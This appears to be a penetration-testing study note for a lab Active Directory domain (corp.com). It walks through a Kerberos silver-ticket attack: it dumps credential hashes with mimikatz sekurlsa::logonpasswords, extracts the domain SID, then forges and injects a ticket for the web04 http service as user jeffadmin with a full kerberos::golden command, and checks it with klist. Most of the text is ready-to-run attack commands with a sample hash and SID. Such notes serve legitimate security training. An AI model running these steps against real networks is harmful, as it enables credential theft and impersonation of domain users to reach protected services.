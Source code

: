 ```yaml
---
IP_KALI: 192.168.45.155
SID: S-1-5-21-1987370270-658905905-1781884369
DOMAIN: corp.com
TARGET_SPN: web04.corp.com
USER: jeffadmin
SERVICE: http
HASH: 4d28cf5252d39971419580a51484ca09
---
```

Silver tickets grant access to services otherwise unavailable

In general, we need to collect the following three pieces of information to create a silver ticket:
- SPN password hash
- Domain SID
- Target SPN

On mimikatz:
```
privilege::debug
```
```
sekurlsa::logonpasswords
```

Get domain SID:
```
whoami /user
```
We need all but the last segment of the SID i.e.  ***S-1-5-21-1987370270-658905905-1781884369***-1105 since this is the domain ID.

Get target SPN:
In this case it is web04.corp.com since we are targeting the web server on the domain

Command to run in mimikatz:
- kerberos::golden /sid:<span id="SID"/>S-1-5-21-1987370270-658905905-1781884369<span type="end"/> /domain:<span id="DOMAIN"/>corp.com<span type="end"/> /ptt /target:<span id="TARGET_SPN"/>web04.corp.com<span type="end"/> /service:<span id="SERVICE"/>http<span type="end"/> /rc4:<span id="HASH"/>4d28cf5252d39971419580a51484ca09<span type="end"/> /user:<span id="USER"/>jeffadmin<span type="end"/>

Confirm ticket creation:
```
klist
```